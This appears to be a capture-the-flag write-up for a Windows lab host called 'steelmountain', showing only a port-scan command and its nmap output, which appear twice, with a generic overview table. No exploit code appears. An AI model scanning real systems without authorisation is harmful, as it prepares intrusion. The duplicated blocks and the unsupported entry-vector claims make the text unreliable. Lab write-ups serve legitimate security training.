

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 3389/tcp on 10.10.164.211, 135/tcp on 10.10.164.211, 80/tcp on 10.10.164.211, 445/tcp on 10.10.164.211, 139/tcp on 10.10.164.211, 8080/tcp on 10.10.164.211 |
| Primary Entry Vector      | lfi, smb-enumeration, upload-abuse |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan
We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
rustscan -a $ip --ulimit 5000 -- -A -sV
```

We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
rustscan -a $ip --ulimit 5000 -- -A -sV
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ rustscan -a $ip --ulimit 5000 -- -A -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: allowing you to send UDP packets into the void 1200x faster than NMAP

[~] The config file is expected to be at "/home/n0z0/snap/rustscan/208/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.164.211:80
Open 10.10.164.211:135
Open 10.10.164.211:139
Open 10.10.164.211:445
Open 10.10.164.211:3389
Open 10.10.164.211:5985
Open 10.10.164.211:8080
Open 10.10.164.211:47001
Open 10.10.164.211:49152
Open 10.10.164.211:49153
Open 10.10.164.211:49154
Open 10.10.164.211:49155
Open 10.10.164.211:49156
Open 10.10.164.211:49163
Open 10.10.164.211:49164
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sV" on ip 10.10.164.211
Depending on the complexity of the script, results may take some time to appear.
[~]
Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-21 16:26 JST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
Initiating Ping Scan at 16:26
Scanning 10.10.164.211 [2 ports]
Completed Ping Scan at 16:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:26
Completed Parallel DNS resolution of 1 host. at 16:26, 13.00s elapsed
DNS resolution of 1 IPs took 13.02s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 16:26
Scanning 10.10.164.211 [15 ports]
Discovered open port 3389/tcp on 10.10.164.211
Discovered open port 135/tcp on 10.10.164.211
Discovered open port 80/tcp on 10.10.164.211
Discovered open port 445/tcp on 10.10.164.211
Discovered open port 139/tcp on 10.10.164.211
Discovered open port 8080/tcp on 10.10.164.211
Discovered open port 49152/tcp on 10.10.164.211
Discovered open port 49155/tcp on 10.10.164.211
Discovered open port 49153/tcp on 10.10.164.211
Discovered open port 49164/tcp on 10.10.164.211
Discovered open port 47001/tcp on 10.10.164.211
Discovered open port 49163/tcp on 10.10.164.211
Discovered open port 49156/tcp on 10.10.164.211
Discovered open port 49154/tcp on 10.10.164.211
Discovered open port 5985/tcp on 10.10.164.211
Completed Connect Scan at 16:26, 0.52s elapsed (15 total ports)
Initiating Service scan at 16:26
Scanning 15 services on 10.10.164.211
Service scan Timing: About 60.00% done; ETC: 16:28 (0:00:39 remaining)
Completed Service scan at 16:27, 62.73s elapsed (15 services on 1 host)
NSE: Script scanning 10.10.164.211.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 8.24s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Nmap scan report for 10.10.164.211
Host is up, received syn-ack (0.26s latency).
Scanned at 2024-09-21 16:26:32 JST for 85s

PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          syn-ack Microsoft SChannel TLS
| fingerprint-strings:
|   TLSSessionReq:
|     "I8%
|     steelmountain0
|     240920071227Z
|     250322071227Z0
|     steelmountain0
|     mkaA
|     *y/yA9
|     ti(!
|     |Q4O
|     PkjV
|     $0"0
|     !%%4
|     YY:H
|     )(&T
|     <4{_
|_    &\|0
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-09-20T07:12:27
| Not valid after:  2025-03-22T07:12:27
| MD5:   d7fa ddf6 1c5d 512b 9df2 abaf 501c 9923
| SHA-1: 4a56 4049 1c34 49b0 1500 d78f 3908 b94a 8849 be47
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQfIv6oDSXzoxEkSn2NGyZqjANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTI0MDkyMDA3MTIyN1oXDTI1MDMy
| MjA3MTIyN1owGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAJvz3Ov4AtYKn1+9y+rETNODTIiwWGV66jUMBmjp
| RuGm5yg3ohvDFz7POiR8ASi5mvbPh7Sz+SOii6sHwqXiVO+evupta2FBoOocuNwu
| 5vWyFG6GePUVZMUqeS95QTmhqkikm9h6IRUjxal0aSghmuQNVge3sf30KNFqC+TK
| MhvYI9nwOzUWnWi1G9RKUaD8OSf/XFOJiZgzYrOd0Y8knJn6czxbAU7JGdDTdSYA
| cAR2u8J4O1nn6yWqckCQ+LBSXe7whXZOppgX2zv/r3xRNE8Fqgsy9raB3mxGwulb
| Ymy/wR8nAVwqidVR57XCUGtqVhLB0CzT6LRIM74sRgyAQt0CAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQCNwlBQqro9jNNkbDmT1+JI+c23bjAl2/AfWq/RPu22OPt2z6kHQtXEJc3J/Lxn
| MQyMB6fXuPgEP3XqR0fl3LhX6L8hJSU080Vsc/LQ0UM8A5jZNgdbai2L8L8roYIG
| 96UAQ0KnxmFputKD+ISsblAaWVk6SB/EhY+ZxVXBY8ujgUxXHtW73FDOf0m1JZl2
| QcrDyJn5UAPxpsYkVgWwfrKNB4gtBWQEbgcpKCZUE5TvPF+k/mxe6tRE5VPNRa4L
| wdjOp+JFEqKewEu3QHCI52dLwyA8NHtfnafz+z0/FReDEO/UccKmSQOcDze8E+kO
| I70mXHww+tESAn8xy+fZQ4b2
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-21T07:27:51+00:00; -1s from scanner time.
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49163/tcp open  msrpc        syn-ack Microsoft Windows RPC
49164/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.60%I=7%D=9/21%Time=66EE7541%P=x86_64-pc-linux-gnu%r(TL
SF:SSessionReq,346,"\x16\x03\x03\x03A\x02\0\0M\x03\x03f\xeeu<\x06Y\xd4z\xb
SF:8\xab\xf2\xaa\xa8\xdf\xed\x8b:\x20V\xb5\xe1\xbaee\x1c\x89\xe1/\xdbsOX\x
SF:20\x9a\x10\0\0\x19\x152M3\xbd\x7f\xdd\)m\xf3\xde\"I8%\xde\xab\xe0\xdf\\
SF:-<k\xbb\xd8\xd3\xa7\0/\0\0\x05\xff\x01\0\x01\0\x0b\0\x02\xe8\0\x02\xe5\
SF:0\x02\xe20\x82\x02\xde0\x82\x01\xc6\xa0\x03\x02\x01\x02\x02\x10\|\x8b\x
SF:fa\xa04\x97\xce\x8cD\x91\)\xf64l\x99\xaa0\r\x06\t\*\x86H\x86\xf7\r\x01\
SF:x01\x05\x05\x000\x181\x160\x14\x06\x03U\x04\x03\x13\rsteelmountain0\x1e
SF:\x17\r240920071227Z\x17\r250322071227Z0\x181\x160\x14\x06\x03U\x04\x03\
SF:x13\rsteelmountain0\x82\x01\"0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x01\x05
SF:\0\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\0\x9b\xf3\xdc\xeb\xf8
SF:\x02\xd6\n\x9f_\xbd\xcb\xea\xc4L\xd3\x83L\x88\xb0Xez\xea5\x0c\x06h\xe9F
SF:\xe1\xa6\xe7\(7\xa2\x1b\xc3\x17>\xcf:\$\|\x01\(\xb9\x9a\xf6\xcf\x87\xb4
SF:\xb3\xf9#\xa2\x8b\xab\x07\xc2\xa5\xe2T\xef\x9e\xbe\xeamkaA\xa0\xea\x1c\
SF:xb8\xdc\.\xe6\xf5\xb2\x14n\x86x\xf5\x15d\xc5\*y/yA9\xa1\xaaH\xa4\x9b\xd
SF:8z!\x15#\xc5\xa9ti\(!\x9a\xe4\rV\x07\xb7\xb1\xfd\xf4\(\xd1j\x0b\xe4\xca
SF:2\x1b\xd8#\xd9\xf0;5\x16\x9dh\xb5\x1b\xd4JQ\xa0\xfc9'\xff\\S\x89\x89\x9
SF:83b\xb3\x9d\xd1\x8f\$\x9c\x99\xfas<\[\x01N\xc9\x19\xd0\xd3u&\0p\x04v\xb
SF:b\xc2x;Y\xe7\xeb%\xaar@\x90\xf8\xb0R\]\xee\xf0\x85vN\xa6\x98\x17\xdb;\x
SF:ff\xaf\|Q4O\x05\xaa\x0b2\xf6\xb6\x81\xdelF\xc2\xe9\[bl\xbf\xc1\x1f'\x01
SF:\\\*\x89\xd5Q\xe7\xb5\xc2PkjV\x12\xc1\xd0,\xd3\xe8\xb4H3\xbe,F\x0c\x80B
SF:\xdd\x02\x03\x01\0\x01\xa3\$0\"0\x13\x06\x03U\x1d%\x04\x0c0\n\x06\x08\+
SF:\x06\x01\x05\x05\x07\x03\x010\x0b\x06\x03U\x1d\x0f\x04\x04\x03\x02\x040
SF:0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x05\x05\0\x03\x82\x01\x01\0\x8d\xc2P
SF:P\xaa\xba=\x8c\xd3dl9\x93\xd7\xe2H\xf9\xcd\xb7n0%\xdb\xf0\x1fZ\xaf\xd1>
SF:\xed\xb68\xfbv\xcf\xa9\x07B\xd5\xc4%\xcd\xc9\xfc\xbcg1\x0c\x8c\x07\xa7\
SF:xd7\xb8\xf8\x04\?u\xeaGG\xe5\xdc\xb8W\xe8\xbf!%%4\xf3Els\xf2\xd0\xd1C<\
SF:x03\x98\xd96\x07\[j-\x8b\xf0\xbf\+\xa1\x82\x06\xf7\xa5\0CB\xa7\xc6ai\xb
SF:a\xd2\x83\xf8\x84\xacnP\x1aYY:H\x1f\xc4\x85\x8f\x99\xc5U\xc1c\xcb\xa3\x
SF:81LW\x1e\xd5\xbb\xdcP\xce\x7fI\xb5%\x99vA\xca\xc3\xc8\x99\xf9P\x03\xf1\
SF:xa6\xc6\$V\x05\xb0~\xb2\x8d\x07\x88-\x05d\x04n\x07\)\(&T\x13\x94\xef<_\
SF:xa4\xfel\^\xea\xd4D\xe5S\xcdE\xae\x0b\xc1\xd8\xce\xa7\xe2E\x12\xa2\x9e\
SF:xc0K\xb7@p\x88\xe7gK\xc3\x20<4{_\x9d\xa7\xf3\xfb=\?\x15\x17\x83\x10\xef
SF:\xd4q\xc2\xa6I\x03\x9c\x0f7\xbc\x13\xe9\x0e#\xbd&\\\|0\xfa\xd1\x12\x02\
SF:x7f1\xcb\xe7\xd9C\x86\xf6\x0e\0\0\0");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:da:52:a4:ca:cd (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 da 52 a4 ca cd 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 21156/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42314/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58811/udp): CLEAN (Failed to receive data)
|   Check 4 (port 30139/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-09-21 16:27:50
|_  start_date: 2024-09-21 16:12:20

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Read data files from: /snap/rustscan/208/usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.44 seconds
```

## Nmap
```bash
RustScan: allowing you to send UDP packets into the void 1200x faster than NMAP
```

We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
rustscan -a $ip --ulimit 5000 -- -A -sV
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ rustscan -a $ip --ulimit 5000 -- -A -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: allowing you to send UDP packets into the void 1200x faster than NMAP

[~] The config file is expected to be at "/home/n0z0/snap/rustscan/208/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.164.211:80
Open 10.10.164.211:135
Open 10.10.164.211:139
Open 10.10.164.211:445
Open 10.10.164.211:3389
Open 10.10.164.211:5985
Open 10.10.164.211:8080
Open 10.10.164.211:47001
Open 10.10.164.211:49152
Open 10.10.164.211:49153
Open 10.10.164.211:49154
Open 10.10.164.211:49155
Open 10.10.164.211:49156
Open 10.10.164.211:49163
Open 10.10.164.211:49164
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sV" on ip 10.10.164.211
Depending on the complexity of the script, results may take some time to appear.
[~]
Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-21 16:26 JST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
Initiating Ping Scan at 16:26
Scanning 10.10.164.211 [2 ports]
Completed Ping Scan at 16:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:26
Completed Parallel DNS resolution of 1 host. at 16:26, 13.00s elapsed
DNS resolution of 1 IPs took 13.02s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 16:26
Scanning 10.10.164.211 [15 ports]
Discovered open port 3389/tcp on 10.10.164.211
Discovered open port 135/tcp on 10.10.164.211
Discovered open port 80/tcp on 10.10.164.211
Discovered open port 445/tcp on 10.10.164.211
Discovered open port 139/tcp on 10.10.164.211
Discovered open port 8080/tcp on 10.10.164.211
Discovered open port 49152/tcp on 10.10.164.211
Discovered open port 49155/tcp on 10.10.164.211
Discovered open port 49153/tcp on 10.10.164.211
Discovered open port 49164/tcp on 10.10.164.211
Discovered open port 47001/tcp on 10.10.164.211
Discovered open port 49163/tcp on 10.10.164.211
Discovered open port 49156/tcp on 10.10.164.211
Discovered open port 49154/tcp on 10.10.164.211
Discovered open port 5985/tcp on 10.10.164.211
Completed Connect Scan at 16:26, 0.52s elapsed (15 total ports)
Initiating Service scan at 16:26
Scanning 15 services on 10.10.164.211
Service scan Timing: About 60.00% done; ETC: 16:28 (0:00:39 remaining)
Completed Service scan at 16:27, 62.73s elapsed (15 services on 1 host)
NSE: Script scanning 10.10.164.211.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 8.24s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Nmap scan report for 10.10.164.211
Host is up, received syn-ack (0.26s latency).
Scanned at 2024-09-21 16:26:32 JST for 85s

PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          syn-ack Microsoft SChannel TLS
| fingerprint-strings:
|   TLSSessionReq:
|     "I8%
|     steelmountain0
|     240920071227Z
|     250322071227Z0
|     steelmountain0
|     mkaA
|     *y/yA9
|     ti(!
|     |Q4O
|     PkjV
|     $0"0
|     !%%4
|     YY:H
|     )(&T
|     <4{_
|_    &\|0
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-09-20T07:12:27
| Not valid after:  2025-03-22T07:12:27
| MD5:   d7fa ddf6 1c5d 512b 9df2 abaf 501c 9923
| SHA-1: 4a56 4049 1c34 49b0 1500 d78f 3908 b94a 8849 be47
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQfIv6oDSXzoxEkSn2NGyZqjANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTI0MDkyMDA3MTIyN1oXDTI1MDMy
| MjA3MTIyN1owGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAJvz3Ov4AtYKn1+9y+rETNODTIiwWGV66jUMBmjp
| RuGm5yg3ohvDFz7POiR8ASi5mvbPh7Sz+SOii6sHwqXiVO+evupta2FBoOocuNwu
| 5vWyFG6GePUVZMUqeS95QTmhqkikm9h6IRUjxal0aSghmuQNVge3sf30KNFqC+TK
| MhvYI9nwOzUWnWi1G9RKUaD8OSf/XFOJiZgzYrOd0Y8knJn6czxbAU7JGdDTdSYA
| cAR2u8J4O1nn6yWqckCQ+LBSXe7whXZOppgX2zv/r3xRNE8Fqgsy9raB3mxGwulb
| Ymy/wR8nAVwqidVR57XCUGtqVhLB0CzT6LRIM74sRgyAQt0CAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQCNwlBQqro9jNNkbDmT1+JI+c23bjAl2/AfWq/RPu22OPt2z6kHQtXEJc3J/Lxn
| MQyMB6fXuPgEP3XqR0fl3LhX6L8hJSU080Vsc/LQ0UM8A5jZNgdbai2L8L8roYIG
| 96UAQ0KnxmFputKD+ISsblAaWVk6SB/EhY+ZxVXBY8ujgUxXHtW73FDOf0m1JZl2
| QcrDyJn5UAPxpsYkVgWwfrKNB4gtBWQEbgcpKCZUE5TvPF+k/mxe6tRE5VPNRa4L
| wdjOp+JFEqKewEu3QHCI52dLwyA8NHtfnafz+z0/FReDEO/UccKmSQOcDze8E+kO
| I70mXHww+tESAn8xy+fZQ4b2
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-21T07:27:51+00:00; -1s from scanner time.
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49163/tcp open  msrpc        syn-ack Microsoft Windows RPC
49164/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.60%I=7%D=9/21%Time=66EE7541%P=x86_64-pc-linux-gnu%r(TL
SF:SSessionReq,346,"\x16\x03\x03\x03A\x02\0\0M\x03\x03f\xeeu<\x06Y\xd4z\xb
SF:8\xab\xf2\xaa\xa8\xdf\xed\x8b:\x20V\xb5\xe1\xbaee\x1c\x89\xe1/\xdbsOX\x
SF:20\x9a\x10\0\0\x19\x152M3\xbd\x7f\xdd\)m\xf3\xde\"I8%\xde\xab\xe0\xdf\\
SF:-<k\xbb\xd8\xd3\xa7\0/\0\0\x05\xff\x01\0\x01\0\x0b\0\x02\xe8\0\x02\xe5\
SF:0\x02\xe20\x82\x02\xde0\x82\x01\xc6\xa0\x03\x02\x01\x02\x02\x10\|\x8b\x
SF:fa\xa04\x97\xce\x8cD\x91\)\xf64l\x99\xaa0\r\x06\t\*\x86H\x86\xf7\r\x01\
SF:x01\x05\x05\x000\x181\x160\x14\x06\x03U\x04\x03\x13\rsteelmountain0\x1e
SF:\x17\r240920071227Z\x17\r250322071227Z0\x181\x160\x14\x06\x03U\x04\x03\
SF:x13\rsteelmountain0\x82\x01\"0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x01\x05
SF:\0\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\0\x9b\xf3\xdc\xeb\xf8
SF:\x02\xd6\n\x9f_\xbd\xcb\xea\xc4L\xd3\x83L\x88\xb0Xez\xea5\x0c\x06h\xe9F
SF:\xe1\xa6\xe7\(7\xa2\x1b\xc3\x17>\xcf:\$\|\x01\(\xb9\x9a\xf6\xcf\x87\xb4
SF:\xb3\xf9#\xa2\x8b\xab\x07\xc2\xa5\xe2T\xef\x9e\xbe\xeamkaA\xa0\xea\x1c\
SF:xb8\xdc\.\xe6\xf5\xb2\x14n\x86x\xf5\x15d\xc5\*y/yA9\xa1\xaaH\xa4\x9b\xd
SF:8z!\x15#\xc5\xa9ti\(!\x9a\xe4\rV\x07\xb7\xb1\xfd\xf4\(\xd1j\x0b\xe4\xca
SF:2\x1b\xd8#\xd9\xf0;5\x16\x9dh\xb5\x1b\xd4JQ\xa0\xfc9'\xff\\S\x89\x89\x9
SF:83b\xb3\x9d\xd1\x8f\$\x9c\x99\xfas<\[\x01N\xc9\x19\xd0\xd3u&\0p\x04v\xb
SF:b\xc2x;Y\xe7\xeb%\xaar@\x90\xf8\xb0R\]\xee\xf0\x85vN\xa6\x98\x17\xdb;\x
SF:ff\xaf\|Q4O\x05\xaa\x0b2\xf6\xb6\x81\xdelF\xc2\xe9\[bl\xbf\xc1\x1f'\x01
SF:\\\*\x89\xd5Q\xe7\xb5\xc2PkjV\x12\xc1\xd0,\xd3\xe8\xb4H3\xbe,F\x0c\x80B
SF:\xdd\x02\x03\x01\0\x01\xa3\$0\"0\x13\x06\x03U\x1d%\x04\x0c0\n\x06\x08\+
SF:\x06\x01\x05\x05\x07\x03\x010\x0b\x06\x03U\x1d\x0f\x04\x04\x03\x02\x040
SF:0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x05\x05\0\x03\x82\x01\x01\0\x8d\xc2P
SF:P\xaa\xba=\x8c\xd3dl9\x93\xd7\xe2H\xf9\xcd\xb7n0%\xdb\xf0\x1fZ\xaf\xd1>
SF:\xed\xb68\xfbv\xcf\xa9\x07B\xd5\xc4%\xcd\xc9\xfc\xbcg1\x0c\x8c\x07\xa7\
SF:xd7\xb8\xf8\x04\?u\xeaGG\xe5\xdc\xb8W\xe8\xbf!%%4\xf3Els\xf2\xd0\xd1C<\
SF:x03\x98\xd96\x07\[j-\x8b\xf0\xbf\+\xa1\x82\x06\xf7\xa5\0CB\xa7\xc6ai\xb
SF:a\xd2\x83\xf8\x84\xacnP\x1aYY:H\x1f\xc4\x85\x8f\x99\xc5U\xc1c\xcb\xa3\x
SF:81LW\x1e\xd5\xbb\xdcP\xce\x7fI\xb5%\x99vA\xca\xc3\xc8\x99\xf9P\x03\xf1\
SF:xa6\xc6\$V\x05\xb0~\xb2\x8d\x07\x88-\x05d\x04n\x07\)\(&T\x13\x94\xef<_\
SF:xa4\xfel\^\xea\xd4D\xe5S\xcdE\xae\x0b\xc1\xd8\xce\xa7\xe2E\x12\xa2\x9e\
SF:xc0K\xb7@p\x88\xe7gK\xc3\x20<4{_\x9d\xa7\xf3\xfb=\?\x15\x17\x83\x10\xef
SF:\xd4q\xc2\xa6I\x03\x9c\x0f7\xbc\x13\xe9\x0e#\xbd&\\\|0\xfa\xd1\x12\x02\
SF:x7f1\xcb\xe7\xd9C\x86\xf6\x0e\0\0\0");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:da:52:a4:ca:cd (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 da 52 a4 ca cd 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 21156/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42314/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58811/udp): CLEAN (Failed to receive data)
|   Check 4 (port 30139/udp): CLEAN (Timeout)
